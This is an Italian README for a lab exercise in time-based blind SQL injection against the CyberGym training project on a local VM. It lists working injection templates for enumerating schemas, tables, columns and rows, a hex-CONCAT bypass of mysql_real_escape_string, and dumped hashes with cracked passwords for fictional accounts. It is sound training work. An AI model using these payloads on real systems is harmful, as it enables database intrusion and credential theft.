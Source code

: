 ## Time based blind SQLi

La challenge prevede la preparazione di uno script in linguaggio a piacere (ho scelto il python) per l'exploit della vulnerabilità
che permette SQLi di tipo Time-based blind su due pagine del progetto [CyberGym](https://github.com/AvalZ/cyber-gym) 
(nel mio caso installato su una macchina virtuale eseguita in locale).

Lo svolgimento della prima challenge si può trovare [qui](Time-Based_Blind.md)

Lo svolgimento della seconda [qui](Time-Based_Blind_escaped.md)

Lo script scritto per la loro risoluzione è il [blind_sqli.py](blind_sqli.py) (python 3) presente nel repository.

I dati recuperati dalla tabella accounts sono i seguenti:

id : first_name : last_name  : email            : password(sha1)                           : password in chiaro
1  : arthur     : dent       : arthur@guide.com : d00ee262cdcbe7543210bb85f6f1cac257b4e994 : Bathrobe
2  : ford       : prefect    : ford@guide.com   : 30f5cc99c17426a0d28acf8905c6d776039ad022 : Betelgeuse
3  : tricia     : mcmillan   : tricia@guide.com : bcb3358e273b5772ee0ae1799b612e13cc726b04 : Trillian
4  : zaphod     : beeblebrox : zaphod@guide.com : 0c38530eaca4dbc0f49c459c0c52b362f14215c3 : Pan-GalacticGargleBlaster

Le password in chiaro sono state ottenute attraverso lo script [Hash Buster v3.0](https://github.com/s0md3v/Hash-Buster)

Per entrambe le challenge è stato usato lo stesso numero di coppie di query, per le quali è stato modificato il "wrapping"
in modo generare il payload a seconda della tipologia di parametro che si andava a sfruttare:

1. recupero database:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_databases FROM information_schema.schemata)x WHERE x.n_databases = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT schema_name FROM information_schema.schemata LIMIT {},1)x WHERE MID(x.schema_name,{},1) = {} AND SLEEP(0.1)"
2. recupero nomi tabelle:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_tables FROM information_schema.tables WHERE table_schema = CONCAT(" + database_hex + "))x WHERE x.n_tables = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT table_name FROM information_schema.tables WHERE table_schema = CONCAT(" + database_hex + ") LIMIT {},1)x WHERE MID(x.table_name,{},1) = {} AND SLEEP(0.1)"
3. recupero nomi colonne e tipo dato nelle tabelle:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_columns FROM information_schema.columns WHERE table_schema = CONCAT(" + database_hex + ") AND table_name = CONCAT(" + table_hex + "))x WHERE x.n_columns = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT CONCAT(column_name,"+hex(ord(':'))+",column_type) AS column_info FROM information_schema.columns WHERE table_schema = CONCAT(" + database_hex + ") AND table_name = CONCAT(" + table_hex + ") LIMIT {},1)x WHERE MID(x.column_info,{},1) = {} AND SLEEP(0.1)"
4. recupero dati presenti nelle colonne passate in input:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_rows FROM  " + db + '.' + table + ")x WHERE n_rows = {} AND SLEEP(0.1)"
	- extracton: "SELECT * FROM(SELECT CONCAT(" + columns_concat + ") AS data FROM " + db + '.' + table + " LIMIT {},1)x WHERE MID(x.data,{},1) = {} AND SLEEP(0.1)"
	
dove:
	- database_hex: lista dei caratteri, separati da virgola, in codifica esadecimale da passare a concat per il bypass di 
					mysql_real_escape_string
	- table_hex: stessa cosa, ma per il nome della tabella passata in input
	
Infine, dall'analisi del jitter delle risposte ho notato che (nel mio ambiente locale, virtualizzato) questo era molto oscillante, ma comunque
si attestava sempre sotto i 0.1 secondi, portandomi a supporre questo valore come sufficiente per una corretta estrazione dei risultati cercati
per entrambe le challenge

Ho incluso nel repository due file .sh che ripercorrono che riepilogano tutti i passaggi necessari per l'estrazione.
